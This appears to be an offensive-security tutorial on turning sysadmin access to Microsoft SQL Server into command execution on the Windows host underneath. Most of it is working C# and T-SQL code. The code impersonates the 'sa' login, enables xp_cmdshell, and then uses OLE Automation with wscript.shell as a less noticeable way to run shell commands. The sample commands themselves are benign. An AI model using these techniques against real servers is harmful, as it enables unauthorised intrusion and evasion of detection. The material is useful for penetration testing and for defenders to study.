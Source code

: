 ## Code Execution With _sa_ Role
With sysadmin role membership, it's possible to obtain code execution on the Windows server hosting the SQL database.
The most well-known way of doing this is by using the [_xp_cmdshell_](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) stored procedure.

Sysadmin role membership allows us to enable xp_cmdshell using advanced options and the [_sp_configure_](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-configure-transact-sql?view=sql-server-ver15) stored procedure.
We'll use the sp_configure stored procedure to activate the advanced options and then enable xp_cmdshell.
To activate the advanced options as well as xp_cmdshell, we must remember to update the currently configured values with the [_RECONFIGURE_](https://docs.microsoft.com/en-us/sql/t-sql/language-elements/reconfigure-transact-sql?view=sql-server-ver15) statement.

We edit our c# Application with the following code:
```c#
String impersonateUser = "EXECUTE AS LOGIN = 'sa';";
            String enable_xpcmd = "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;";
            String execCmd = "EXEC xp_cmdshell whoami";

            SqlCommand command = new SqlCommand(impersonateUser, con);
            SqlDataReader reader = command.ExecuteReader();
            reader.Close();

            command = new SqlCommand(enable_xpcmd, con);
            reader = command.ExecuteReader();
            reader.Close();

            command = new SqlCommand(execCmd, con);
            reader = command.ExecuteReader();
            reader.Read();
            Console.WriteLine("Result of command is: " + reader[0]);
            reader.Close();
```

However, this technique is used very commonly and is not very discrete.
To counter this, we'll use [_sp_OACreate_](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-oacreate-transact-sql?view=sql-server-ver15) and [_sp_OAMethod_](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-oamethod-transact-sql?view=sql-server-ver15) stored procedures to create and execute a new stored procedure based on _Object Linking and Embedding_ (OLE).

With this technique, we can instantiate the Windows Script Host and use the _run_ method.

The _sp_OACreate_ procedure takes 2 arguments:
1. OLE object that we want to instantiate (_wscript.shell_ in our case)
2. Local variable where we want to store it.

The sql statement will be:
```SQL
DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT;
```
(Because _@myshell_ is a local variable, we must stack the SQL queries to ensure it exists when sp_OACreate is invoked.)

The _sp_OAMethod_ procedure takes the following arguments:
1. Name of procedure to execute
2. Method of OLE object(run in our case)
3. Optional output variable
4. Parameters for the invoked method

Before we can execute our new OLE-based procedure, we must ensure that the "OLE Automation Procedures" setting is enabled. Although it is disabled by default, we can change this setting using the sp_configure procedure before creating the stored procedure since we have the sysadmin role.

The c# code application will have the following code:
```C#
String impersonateUser = "EXECUTE AS LOGIN = 'sa';";
        String enable_ole = "EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE;";
        String execCmd = "DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT; EXEC sp_oamethod @myshell, 'run', null, 'cmd /c \"echo Test > C:\\Tools\\file.txt\"';";

        SqlCommand command = new SqlCommand(impersonateUser, con);
        SqlDataReader reader = command.ExecuteReader();
        reader.Close();

        command = new SqlCommand(enable_ole, con);
        reader = command.ExecuteReader();
        reader.Close();

        command = new SqlCommand(execCmd, con);
        reader = command.ExecuteReader();
        reader.Close();

        con.Close();
```